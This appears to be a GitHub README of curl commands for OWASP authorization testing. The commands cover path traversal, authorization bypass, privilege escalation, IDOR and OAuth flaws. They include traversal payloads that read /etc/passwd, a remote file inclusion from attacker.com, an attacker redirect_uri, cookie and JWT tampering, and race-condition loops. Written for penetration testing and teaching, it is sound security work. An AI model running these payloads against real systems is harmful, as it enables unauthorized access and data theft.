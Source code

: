 # OWASP Web Security Testing Guide (WSTG) - Authorization Testing

This repository contains a collection of web application penetration testing techniques and commands based on the OWASP Web Security Testing Guide. The focus is on practical commands that can be used during penetration testing engagements.

## Table of Contents

1. [WSTG-ATHZ-01: Testing Directory Traversal File Include](#wstg-athz-01-testing-directory-traversal-file-include)
2. [WSTG-ATHZ-02: Testing for Bypassing Authorization Schema](#wstg-athz-02-testing-for-bypassing-authorization-schema)
3. [WSTG-ATHZ-03: Testing for Privilege Escalation](#wstg-athz-03-testing-for-privilege-escalation)
4. [WSTG-ATHZ-04: Testing for Insecure Direct Object References](#wstg-athz-04-testing-for-insecure-direct-object-references)
5. [WSTG-ATHZ-05: Testing for OAuth Weaknesses](#wstg-athz-05-testing-for-oauth-weaknesses)

## WSTG-ATHZ-01: Testing Directory Traversal File Include

**Objective**: Identify injection points that pertain to path traversal and assess bypassing techniques to determine the extent of path traversal vulnerabilities.

### Commands

```bash
# Basic directory traversal tests
curl -s "https://example.com/download?file=../../../etc/passwd"
curl -s "https://example.com/download?file=..%2F..%2F..%2Fetc%2Fpasswd"

# Test for path traversal with null byte injection
curl -s "https://example.com/download?file=../../../etc/passwd%00.pdf"

# Test for double URL encoding
curl -s "https://example.com/download?file=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd"

# Test for absolute path bypass
curl -s "https://example.com/download?file=/etc/passwd"

# Test for local/remote file inclusion
curl -s "https://example.com/page?include=http://attacker.com/malicious.php"
curl -s "https://example.com/page?include=php://filter/convert.base64-encode/resource=index.php"

# Test for dot-dot-slash attack with different encodings
for encoding in "../" "..%2f" "..%252f" "%2e%2e%2f" "%252e%252e%252f"; do
  curl -s "https://example.com/download?file=${encoding}${encoding}${encoding}etc/passwd";
done

# Test for path traversal with validation bypass
curl -s "https://example.com/download?file=....//....//....//etc/passwd"
curl -s "https://example.com/download?file=..././..././..././etc/passwd"
```

## WSTG-ATHZ-02: Testing for Bypassing Authorization Schema

**Objective**: Assess if horizontal or vertical access is possible and test access to administrative functions by force browsing.

### Commands

```bash
# Test for horizontal access (accessing other user's data)
curl -s -H "Cookie: session=VALID_SESSION_COOKIE" https://example.com/api/users/123/profile
curl -s -H "Cookie: session=VALID_SESSION_COOKIE" https://example.com/api/users/124/profile

# Test for vertical access (accessing admin functions as regular user)
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/admin
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/admin/users

# Test for forced browsing to admin pages
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/admin/addUser
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/admin/deleteUser?id=123

# Test for parameter manipulation
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/profile?admin=true
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/api/getUser?role=admin

# Test for cookie/token manipulation
curl -s -H "Cookie: session=USER_SESSION_COOKIE; isAdmin=true" https://example.com/admin
curl -s -H "Cookie: session=USER_SESSION_COOKIE; role=admin" https://example.com/admin

# Test for referer-based access control
curl -s -H "Cookie: session=USER_SESSION_COOKIE" -H "Referer: https://example.com/admin" https://example.com/admin/deleteUser?id=123

# Test for direct access to API endpoints
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/api/admin/listUsers
```

## WSTG-ATHZ-03: Testing for Privilege Escalation

**Objective**: Identify injection points related to role/privilege manipulation and verify that users cannot elevate their privileges or roles within the application.

### Commands

```bash
# Test for parameter tampering to elevate privileges
curl -s -X POST -H "Cookie: session=USER_SESSION_COOKIE" -d "groupid=1" https://example.com/api/changeGroup
curl -s -X POST -H "Cookie: session=USER_SESSION_COOKIE" -d "role=admin" https://example.com/api/updateProfile

# Test for privilege escalation via CSRF
curl -s -X POST -H "Cookie: session=USER_SESSION_COOKIE" -d "newrole=admin&csrf_token=invalid" https://example.com/api/updateRole

# Test for function level access control
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/api/admin/createUser
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/api/admin/deleteUser?id=123

# Test for privilege escalation via parameter pollution
curl -s -H "Cookie: session=USER_SESSION_COOKIE" "https://example.com/api/getUser?id=123&id=456"

# Test for race conditions that may lead to privilege escalation
for i in {1..10}; do
  curl -s -X POST -H "Cookie: session=USER_SESSION_COOKIE" -d "action=upgrade&plan=free" https://example.com/api/changePlan &
done

# Test for privilege escalation via JWT token manipulation
# 1. Get a valid JWT token
token=$(curl -s -X POST -d "username=user&password=password" https://example.com/login | grep -o "eyJ.*")
# 2. Decode and modify the token (example using jwt_tool)
python3 jwt_tool.py $token -T -S hs256 -p "role=admin"
```

## WSTG-ATHZ-04: Testing for Insecure Direct Object References

**Objective**: Identify points where object references may occur and assess the access control measures to determine if they're vulnerable to IDOR.

### Commands

```bash
# Test for IDOR in user profiles
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/api/users/123
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/api/users/124

# Test for IDOR in file downloads
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/download?file=123.pdf
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/download?file=124.pdf

# Test for IDOR in API endpoints
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/api/orders/123
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/api/orders/124

# Test for IDOR with different HTTP methods
curl -s -X PUT -H "Cookie: session=USER_SESSION_COOKIE" -d "data=new_data" https://example.com/api/users/124

# Test for IDOR with encoded/hashed IDs
# First, identify the pattern of IDs
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/api/users/profile | grep -o "id[\"']:[\"'][a-f0-9]*[\"']"
# Then try to access other resources with similar pattern
curl -s -H "Cookie: session=USER_SESSION_COOKIE" https://example.com/api/users/a7f9b3c2e1d8

# Test for IDOR in bulk operations
curl -s -X POST -H "Cookie: session=USER_SESSION_COOKIE" -d "ids=[123,124,125]" https://example.com/api/getUserDetails
```

## WSTG-ATHZ-05: Testing for OAuth Weaknesses

**Objective**: Determine if OAuth2 implementation is vulnerable or using a deprecated or custom implementation.

### Commands

```bash
# Test for OAuth client ID and secret exposure
curl -s https://example.com/oauth/callback | grep -i "client_id\|client_secret"
curl -s https://example.com/js/main.js | grep -i "client_id\|client_secret"

# Test for insecure redirect_uri validation
curl -s "https://example.com/oauth/authorize?client_id=VALID_CLIENT_ID&redirect_uri=https://attacker.com&response_type=code"

# Test for CSRF in OAuth flow
curl -s "https://example.com/oauth/authorize?client_id=VALID_CLIENT_ID&redirect_uri=VALID_REDIRECT_URI&response_type=code" -v

# Test for access token leakage in URL fragments
curl -s "https://example.com/oauth/authorize?client_id=VALID_CLIENT_ID&redirect_uri=VALID_REDIRECT_URI&response_type=token"

# Test for lack of state parameter
curl -s "https://example.com/oauth/authorize?client_id=VALID_CLIENT_ID&redirect_uri=VALID_REDIRECT_URI&response_type=code" | grep -i "state"

# Test for improper scope validation
curl -s "https://example.com/oauth/authorize?client_id=VALID_CLIENT_ID&redirect_uri=VALID_REDIRECT_URI&response_type=code&scope=admin"

# Test for token reuse
# 1. Get a valid access token
token=$(curl -s -X POST -d "grant_type=authorization_code&code=VALID_CODE&redirect_uri=VALID_REDIRECT_URI&client_id=VALID_CLIENT_ID&client_secret=VALID_CLIENT_SECRET" https://example.com/oauth/token | grep -o "access_token\":\"[^\"]*" | cut -d':' -f2 | tr -d '\"')
# 2. Use the token to access a resource
curl -s -H "Authorization: Bearer $token" https://example.com/api/resource
# 3. Try to use the token again after some time
sleep 3600
curl -s -H "Authorization: Bearer $token" https://example.com/api/resource
```

## Additional Resources

- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [HackTricks](https://book.hacktricks.xyz/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [SANS Penetration Testing Resources](https://www.sans.org/blog/pen-test-poster-white-board/)

## Contributing

Feel free to submit pull requests with additional commands, techniques, or improvements to the existing content.

## License

This project is licensed under the MIT License - see the LICENSE file for details.
